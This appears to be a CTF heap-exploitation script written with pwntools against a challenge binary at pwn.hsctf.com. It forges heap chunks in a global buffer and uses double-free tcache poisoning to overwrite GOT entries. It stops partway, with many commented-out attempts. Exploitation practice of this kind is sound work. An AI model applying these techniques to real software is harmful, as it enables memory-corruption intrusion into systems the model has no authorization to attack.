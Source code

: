 ```python
if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
else:
  sh = remote('pwn.hsctf.com', 2222)
  REMOTE = True

alloc = lambda size, content: [sh.sendlineafter('> ', '1'), sh.sendlineafter('> ', str(size)), sh.sendlineafter('> ', content)]
free = lambda: sh.sendlineafter('> ', '2')

name_addr = 0x6020E0
chunk_addr = name_addr + 0x10
printf_got = 0x0000000000602048
exit_got = 0x0000000000602078
chunk_size = 0x90

chunk1 = flat(0, 0x11)
chunk1 = chunk1.ljust(0x10, '\x00')
chunk2 = flat(0, chunk_size+1)
chunk2 = chunk2.ljust(chunk_size, '\x00')
chunk3 = flat(0, 0x11)
chunk3 = chunk3.ljust(0x10, '\x00')
# name = chunk1 + chunk2
name = chunk1 + chunk2 + chunk3 + flat(0, 0x11)

ret_addr = 0x00400c0c

sh.sendlineafter('> ', name)

# alloc(0x100, p64(name_addr+0x10))
# free()
# free()
# alloc(0x100, p64(name_addr+0x10))
# alloc(0x100, 'abcde')
# alloc(0x100, 'thisgoestoname')

# alloc(0x10, 'abcde')

# for i in range(8):
#   alloc(0x100, p64(name_addr+0x10))
#   free()
# alloc(0x100, p64(name_addr+0x10))
# free()


# alloc(100, p64(printf_got))
# free()
# free()
# alloc(100, p64(printf_got))
# alloc(100, 'abcde')
# alloc(100, p64(win_addr))

alloc(100, 'abcde')
# remove exit
alloc(100, p64(exit_got))
```